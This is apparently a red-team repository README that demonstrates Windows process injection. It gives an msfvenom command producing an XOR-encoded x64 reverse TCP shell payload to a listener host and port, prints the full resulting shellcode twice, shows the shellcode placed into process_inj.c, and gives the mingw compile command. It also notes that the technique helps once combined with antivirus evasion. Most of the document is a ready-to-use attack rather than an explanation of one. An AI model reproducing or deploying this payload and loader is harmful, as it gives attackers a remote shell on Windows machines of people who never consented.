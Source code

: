 # Process injection

This is an example of how to execute a process injection in Windows. All the code used is in /Source_code, /Demo contains a recording of the code in execution.

The program will ask the Windows API to allocate some memory for a new process, copy the given shellcode into this memory, and execute it.

Obviously this won't bypass any antivirus on its own and Windows Defender is disabled for the demonstration, but it can be usefull once combined with other methods.

![Watch a demo here](https://raw.githubusercontent.com/geoffrey-diederichs/Red_team_tools/main/Process_injection/Demo/process_inj_demo.mp4)

## How to use

Replace <SHELLCODE_TO_REPLACE> within the process_injec.c at line 5 with the shellcode you want to execute. Then just compile and execute the program.

For example we can use msfvenom to generate a payload : 

```
$ msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4545 -e x64/xor -b "\x00\x0a\x0d" -f c
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor chosen with final size 503
Payload size: 503 bytes
Final size of c file: 2144 bytes
unsigned char buf[] = 
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\xa7\xbb\x02\x1d\x1c\x23\xa8\xab\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5b\xf3\x81"
"\xf9\xec\xcb\x68\xab\xa7\xbb\x43\x4c\x5d\x73\xfa\xfa\xf1"
"\xf3\x33\xcf\x79\x6b\x23\xf9\xc7\xf3\x89\x4f\x04\x6b\x23"
"\xf9\x87\xf3\x89\x6f\x4c\x6b\xa7\x1c\xed\xf1\x4f\x2c\xd5"
"\x6b\x99\x6b\x0b\x87\x63\x61\x1e\x0f\x88\xea\x66\x72\x0f"
"\x5c\x1d\xe2\x4a\x46\xf5\xfa\x53\x55\x97\x71\x88\x20\xe5"
"\x87\x4a\x1c\xcc\xa8\x28\x23\xa7\xbb\x02\x55\x99\xe3\xdc"
"\xcc\xef\xba\xd2\x4d\x97\x6b\xb0\xef\x2c\xfb\x22\x54\x1d"
"\xf3\x4b\xfd\xef\x44\xcb\x5c\x97\x17\x20\xe3\xa6\x6d\x4f"
"\x2c\xd5\x6b\x99\x6b\x0b\xfa\xc3\xd4\x11\x62\xa9\x6a\x9f"
"\x5b\x77\xec\x50\x20\xe4\x8f\xaf\xfe\x3b\xcc\x69\xfb\xf0"
"\xef\x2c\xfb\x26\x54\x1d\xf3\xce\xea\x2c\xb7\x4a\x59\x97"
"\x63\xb4\xe2\xa6\x6b\x43\x96\x18\xab\xe0\xaa\x77\xfa\x5a"
"\x5c\x44\x7d\xf1\xf1\xe6\xe3\x43\x44\x5d\x79\xe0\x28\x4b"
"\x9b\x43\x4f\xe3\xc3\xf0\xea\xfe\xe1\x4a\x96\x0e\xca\xff"
"\x54\x58\x44\x5f\x54\xa2\x54\xdb\x99\xf8\x88\x30\x1d\x1c"
"\x62\xfe\xe2\x2e\x5d\x4a\x9c\xf0\x83\xa9\xab\xa7\xf2\x8b"
"\xf8\x55\x9f\xaa\xab\xb6\x7a\xc2\xb5\x24\x22\xe9\xff\xee"
"\x32\xe6\x51\x95\xd2\xe9\x11\xeb\xcc\x24\x1a\xe3\xf6\xe4"
"\x22\x4d\xd3\x03\x1c\x1c\x23\xf1\xea\x1d\x92\x82\x76\x1c"
"\xdc\x7d\xfb\xf7\xf6\x33\xd4\x51\x12\x68\xe3\x58\x7b\x4a"
"\x94\xde\x6b\x57\x6b\xef\x32\xc3\x5c\xa6\xc9\xa7\x74\x47"
"\x44\xd7\x55\x95\xe4\xc2\xbb\xe6\xe3\x4e\x94\xfe\x6b\x21"
"\x52\xe6\x01\x9b\xb8\x68\x42\x57\x7e\xef\x3a\xc6\x5d\x1e"
"\x23\xa8\xe2\x1f\xd8\x6f\x79\x1c\x23\xa8\xab\xa7\xfa\x52"
"\x5c\x4c\x6b\x21\x49\xf0\xec\x55\x50\x2d\xe3\xc2\xa6\xfe"
"\xfa\x52\xff\xe0\x45\x6f\xef\x83\xef\x03\x1c\x54\xae\xec"
"\x8f\xbf\x7d\x02\x75\x54\xaa\x4e\xfd\xf7\xfa\x52\x5c\x4c"
"\x62\xf8\xe2\x58\x7b\x43\x4d\x55\xdc\x60\xe6\x2e\x7a\x4e"
"\x94\xdd\x62\x12\xd2\x6b\x84\x84\xe2\xc9\x6b\x99\x79\xef"
"\x44\xc8\x96\x12\x62\x12\xa3\x20\xa6\x62\xe2\xc9\x98\x58"
"\x1e\x05\xed\x43\xa7\xba\xb6\x15\x36\x58\x6e\x4a\x9e\xd8"
"\x0b\x94\xad\xdb\xb1\x82\xe6\xfc\x56\xad\x10\xe0\xa8\x70"
"\x72\x76\x23\xf1\xea\x2e\x61\xfd\xc8\x1c\x23\xa8\xab";
```

We can then place the shellcode inside process_inj.c and I'll use mingw-w64 to compile it for Windows under Linux :

```
$ cat process_inj.c | head -n 41 | tail -n 37
unsigned char shellcode[] = 
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\xa7\xbb\x02\x1d\x1c\x23\xa8\xab\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5b\xf3\x81"
"\xf9\xec\xcb\x68\xab\xa7\xbb\x43\x4c\x5d\x73\xfa\xfa\xf1"
"\xf3\x33\xcf\x79\x6b\x23\xf9\xc7\xf3\x89\x4f\x04\x6b\x23"
"\xf9\x87\xf3\x89\x6f\x4c\x6b\xa7\x1c\xed\xf1\x4f\x2c\xd5"
"\x6b\x99\x6b\x0b\x87\x63\x61\x1e\x0f\x88\xea\x66\x72\x0f"
"\x5c\x1d\xe2\x4a\x46\xf5\xfa\x53\x55\x97\x71\x88\x20\xe5"
"\x87\x4a\x1c\xcc\xa8\x28\x23\xa7\xbb\x02\x55\x99\xe3\xdc"
"\xcc\xef\xba\xd2\x4d\x97\x6b\xb0\xef\x2c\xfb\x22\x54\x1d"
"\xf3\x4b\xfd\xef\x44\xcb\x5c\x97\x17\x20\xe3\xa6\x6d\x4f"
"\x2c\xd5\x6b\x99\x6b\x0b\xfa\xc3\xd4\x11\x62\xa9\x6a\x9f"
"\x5b\x77\xec\x50\x20\xe4\x8f\xaf\xfe\x3b\xcc\x69\xfb\xf0"
"\xef\x2c\xfb\x26\x54\x1d\xf3\xce\xea\x2c\xb7\x4a\x59\x97"
"\x63\xb4\xe2\xa6\x6b\x43\x96\x18\xab\xe0\xaa\x77\xfa\x5a"
"\x5c\x44\x7d\xf1\xf1\xe6\xe3\x43\x44\x5d\x79\xe0\x28\x4b"
"\x9b\x43\x4f\xe3\xc3\xf0\xea\xfe\xe1\x4a\x96\x0e\xca\xff"
"\x54\x58\x44\x5f\x54\xa2\x54\xdb\x99\xf8\x88\x30\x1d\x1c"
"\x62\xfe\xe2\x2e\x5d\x4a\x9c\xf0\x83\xa9\xab\xa7\xf2\x8b"
"\xf8\x55\x9f\xaa\xab\xb6\x7a\xc2\xb5\x24\x22\xe9\xff\xee"
"\x32\xe6\x51\x95\xd2\xe9\x11\xeb\xcc\x24\x1a\xe3\xf6\xe4"
"\x22\x4d\xd3\x03\x1c\x1c\x23\xf1\xea\x1d\x92\x82\x76\x1c"
"\xdc\x7d\xfb\xf7\xf6\x33\xd4\x51\x12\x68\xe3\x58\x7b\x4a"
"\x94\xde\x6b\x57\x6b\xef\x32\xc3\x5c\xa6\xc9\xa7\x74\x47"
"\x44\xd7\x55\x95\xe4\xc2\xbb\xe6\xe3\x4e\x94\xfe\x6b\x21"
"\x52\xe6\x01\x9b\xb8\x68\x42\x57\x7e\xef\x3a\xc6\x5d\x1e"
"\x23\xa8\xe2\x1f\xd8\x6f\x79\x1c\x23\xa8\xab\xa7\xfa\x52"
"\x5c\x4c\x6b\x21\x49\xf0\xec\x55\x50\x2d\xe3\xc2\xa6\xfe"
"\xfa\x52\xff\xe0\x45\x6f\xef\x83\xef\x03\x1c\x54\xae\xec"
"\x8f\xbf\x7d\x02\x75\x54\xaa\x4e\xfd\xf7\xfa\x52\x5c\x4c"
"\x62\xf8\xe2\x58\x7b\x43\x4d\x55\xdc\x60\xe6\x2e\x7a\x4e"
"\x94\xdd\x62\x12\xd2\x6b\x84\x84\xe2\xc9\x6b\x99\x79\xef"
"\x44\xc8\x96\x12\x62\x12\xa3\x20\xa6\x62\xe2\xc9\x98\x58"
"\x1e\x05\xed\x43\xa7\xba\xb6\x15\x36\x58\x6e\x4a\x9e\xd8"
"\x0b\x94\xad\xdb\xb1\x82\xe6\xfc\x56\xad\x10\xe0\xa8\x70"
"\x72\x76\x23\xf1\xea\x2e\x61\xfd\xc8\x1c\x23\xa8\xab";

$ x86_64-w64-mingw32-gcc process_inj.c -o process_inj.exe
```

The progam is now ready to be used, you can go watch the demo to see it being executed.
